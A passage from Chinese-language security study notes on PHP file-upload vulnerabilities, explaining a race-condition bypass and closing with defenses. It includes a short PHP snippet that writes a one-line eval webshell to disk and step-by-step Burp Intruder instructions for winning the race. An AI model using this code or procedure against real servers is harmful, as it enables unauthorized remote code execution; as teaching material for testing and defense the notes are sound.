    >    > 规范的上传流程：![image-20210721215438315](../images/PHP进阶/image-20210721215438315.png)
   >    >
   >    > 不规范的上传流程：
   >    >
   >    > 若服务器在获取第二次请求后，是**先移动文件至指定目录，再判断文件是否有效**，若无效，则删除，则可以使用
   >
   >    > 条件竞争：多个线程或进程在读写一个共享数据时结果依赖于它们执行的相对时间
   >
   >    原理：利用php代码生成新的webshell文件，在此代码未被删除之前，访问它，则可以添加webshell文件至服务器
   >
   >    创建webshell的代码示例：
   >
   >    ~~~php
   >    <?php
   >      fputs(fopen('01.php','w'), '<?php @eval($_POST["pass"]); ?>');
   >    ?>
   >    /* 
   >       >fputs：fwrite的别名，写入文件；fopen：打开文件，若不存在，则创建
   >       >相当于创建一个新的webshell
   >       >贼坑人的点，再写入数据的时候需要使用单引号包裹，因为使用双引号会解析里面的$变量
   >    */
   >    ~~~
   >
   >    绕过步骤：
   >
   >    > 1. 创建生成webshell代码的php文件
   >    > 2. 使用burp的空字典爆破功能上传该文件
   >    > 3. 使用burp的空字典爆破功能访问上传的文件
   >    > 4. 等待一段时间，若步骤3出现200 OK状态码，则可以停止
   >    > 5. 在文件保存的目录下，会出现webshell文件
   >

5. 防御方法：

   > 1. 设置上传的目录为不可执行
   > 2. 在文件后缀的判断中使用白名单的方式
   > 3. 文件服务器与web服务器进行分离
   > 4. 不需要返回文件路径的情况下，随机改写文件名



